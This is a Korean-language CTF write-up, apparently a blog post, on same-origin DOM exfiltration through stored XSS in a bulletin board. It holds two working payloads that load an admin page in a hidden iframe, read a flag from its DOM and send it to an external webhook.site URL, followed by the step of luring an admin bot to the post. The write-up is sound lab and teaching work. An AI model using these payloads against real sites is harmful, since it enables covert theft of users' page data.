 ```yaml
---
title: "Stealing DOM data via XSS   (Same-Origin DOM Exfiltration)"
date: 2025-06-23
layout: single
toc: true
toc_label: "Stealing DOM data via XSS"
toc_icon: "book"
toc_sticky: true
tags: [web, xss, hacking]
header:
  teaser: /assets/images/stored-reflected-xss.png
---
```


# 개요

이 페이지는 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.

공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.

---

# CTF 문제 풀이

## Steal Info

![취약점 있는 곳](/assets/screenshots/xss-dom-steal/steal1_post.png)

게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](/assets/screenshots/xss-dom-steal/target_html.png)

누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](/assets/screenshots/xss-dom-steal/target_card-text.png)

위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/screenshots/xss-dom-steal/steal1_payload.png)

이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](/assets/screenshots/xss-dom-steal/steal1_access_admin.png)

URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](/assets/screenshots/xss-dom-steal/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

## Steal Info 2

![타겟 할 곳](/assets/screenshots/xss-dom-steal/steal2_burp_suite.png)

위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/screenshots/xss-dom-steal/steal2_payload.png)

`iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 

이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

- 사용자가 직접 게시물 클릭 시:

![게시물 클릭](/assets/screenshots/xss-dom-steal/steal2_access.png)

게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](/assets/screenshots/xss-dom-steal/steal2_access_admin.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

> **결과:**

![플래그 획득](/assets/screenshots/xss-dom-steal/steal2_flag.png)

**이렇게 관리자 권한 없이 플래그를 획득하는 데 성공했다.**
